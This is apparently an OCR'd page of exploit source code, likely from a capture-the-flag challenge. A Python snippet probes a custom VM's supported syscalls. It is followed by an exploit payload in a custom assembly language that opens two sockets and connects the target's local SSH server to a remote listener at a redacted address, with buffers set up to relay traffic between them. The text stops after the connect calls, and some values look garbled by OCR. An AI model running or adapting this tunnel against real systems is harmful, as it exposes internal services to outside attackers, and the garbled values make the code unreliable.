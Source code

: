 ```python
    d = assemble_and_send(asm)
    for i in range(0, 60):
        if 'Unimplemented syscall {}\n'.format(i) not in d:
            supported.append(i)
    print('Supported syscalls: {}'.format(supported))

exploit = """start
sys_write:      0x01
sys_socket:     0x29
sys_connect:    0x2a
sys_recvfrom:   0x2d
output: 0
r0: 0x1
r1: 0xdeadbeef
r2: 0x10
zero: 0x0
constMinus1: 0xffffffff
const20: 24
loop_size: 92
test_pad: 0
shit: 0
bad_syscall0: 0
bad_syscall2: 2 
bad_syscall5: 5 
bad_syscall6: 6 

sep: 0x2d2d2d0a 0x0a2d2d2d

sock_args: 2 1 6
connect_localhost_args: 3 sock_addr_local 16
sock_addr_local: 0xae080002 00x0100007f 0 

connect_remote_args: 4 sock_addr_remote 16
sock_addr_remote: 0xae080002 [REDACTED] 0 

write_output_args: 1 output 4
write_test_args: 4 binsh0 4
write_testpad_args: 1 test_pad 4
write_packet_args: 1 buf 
write_packet_size: 632
write_sep_args: 1 sep 8
write_local_args: 3 buf 
write_local_size: 512
write_remote_args: 4 buf 
write_remote_size: 512
recvfrom_local_args: 3 buf 512 0x40 0 addr_len      // Use MSG_DONTWAIT flag (0x40) so we don't block
recvfrom_remote_args: 4 buf 512 0x40 0 addr_len     

addr_len: 0 0 0 0 0
from_addr: 0 0 0 0 0 0 0 0
buf: 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0

start:
// Create two sockets, fd 3 and 4 respectively
0x133769 sys_socket sock_args output
0x133769 sys_socket sock_args output

// Connect to local SSH server and remote listener
0x133769 sys_connect connect_localhost_args output
0x133769 sys_connect connect_remote_args output
```
